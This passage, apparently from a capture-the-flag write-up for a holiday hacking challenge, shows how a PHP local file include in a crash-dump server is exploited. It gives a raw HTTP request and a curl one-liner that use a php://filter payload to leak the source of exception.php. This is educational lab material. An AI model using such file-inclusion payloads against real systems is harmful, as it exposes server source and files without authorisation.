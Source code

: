 {% include image name="admin-quotes.png" caption="Admin quotes with audio file details" %}

#### 5. [X] - The Uncaught Exception Handler Server

[PHP Local File Include](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities)

Once again, going through the android app "SantaGram", we can observe traffic to ex.northpolewonderland.com

There are 2 types of operations in the POST requests: `ReadCrashDump` and `WriteCrashDump`

The `crashdump` parameter in `ReadCrashDump` is vulnerable to PHP local file include.

We can view the source of the exception.php page by making the following request:

``` http
POST /exception.php HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)
Host: ex.northpolewonderland.com
Connection: close
Accept-Encoding: gzip
Content-Length: 106

{"operation":"ReadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=exception"}}
```

Or in curl:

``` bash
curl -s -k -X $'POST' -H $'Content-Type: application/json' -H $'User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)' --data-binary $'{\"operation\":\"ReadCrashDump\",\"data\":{\"crashdump\":\"php://filter/convert.base64-encode/resource=exception\"}}' $'http://ex.northpolewonderland.com/exception.php' | base64 -d
```

Response:

``` php
<?php

# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3

# Code from http://thisinterestsme.com/receiving-json-post-data-via-php/
# Make sure that it is a POST request.
if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
    die("Request method must be POST\n");
}
...snip...
?>
```

Download the audio file:

``` bash
$ wget http://ex.northpolewonderland.com/discombobulated-audio-6-XyzE3N9YqKNH.mp3
```
